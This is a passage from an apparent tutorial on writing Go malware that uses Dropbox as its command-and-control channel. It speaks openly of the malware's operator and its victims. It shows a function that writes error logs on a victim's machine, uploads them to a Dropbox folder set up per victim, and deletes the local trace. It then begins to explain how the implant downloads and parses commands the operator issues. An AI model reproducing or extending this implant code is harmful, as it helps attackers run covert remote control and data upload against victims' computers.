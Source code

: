 ## Error Handling

Now if we run into errors when attempting to execute issued commands, such as not enough arguments being passed, we need to be able to notify the operator of the malware of the encountered issue. We can do this by keeping a log file in each victim's unique directory and writing the errors to this log file when they're encountered. The following code will also check to see if the log file exists & create it if it doesn't already exist in the victim's unique Dropbox folder:

```
func logFileWriter(dbFolder string, data string) {
	dbLogPath := dbFolder + "/" + logFileName
	fullLogPath := os.Getenv("USERPROFILE") + "\\" + logFileName
	if fileExists(dbFolder, logFileName) {
		fmt.Println("log file already exists. Downloading & writing new event to it...")
		respbody2 := downloadDBFile(dbLogPath)
		fmt.Println("Writing new events to log file...")
		t := time.Now()
		timestamp := t.String()
		f, _ := os.Create(fullLogPath)
		f.WriteString(string(respbody2))
		f.WriteString("[" + timestamp + "]" + "\t" + data + "\n")
		f.Close()
		fmt.Println("Uploading log file...")
		rawFileUpload(fullLogPath, dbLogPath)
		fmt.Println("log file uploaded! Removing log file from local system...")
		_ = os.Remove(fullLogPath)
		return
	} else {
		fmt.Println("log file not found. Creating one...")
		t := time.Now()
		timestamp := t.String()
		f, _ := os.Create(fullLogPath)
		f.WriteString("[" + timestamp + "]" + "\t" + data + "\n")
		f.Close()
		fmt.Println("uploading log file...")
		//reads content of log file & uploads the raw data to the dropbox api
		rawFileUpload(fullLogPath, dbLogPath)
		fmt.Println("log file uploaded! Removing log file from local system...")
		_ = os.Remove(fullLogPath)
		return
	}
}
```
The created log file will have a timestamp and information regarding the encountered event.

## Parsing Commands

In order to parse the issued commands, we have to download a file which can be done via the [download API call](https://dropbox.github.io/dropbox-api-v2-explorer/#files_download). Then we'd need to interpret different parts of the issued command such as: who the command is meant for and what the command is and if there are any additional arguments for the command. This can be done by simply adding in a separator for each section of the command, so the syntax would be like this: 
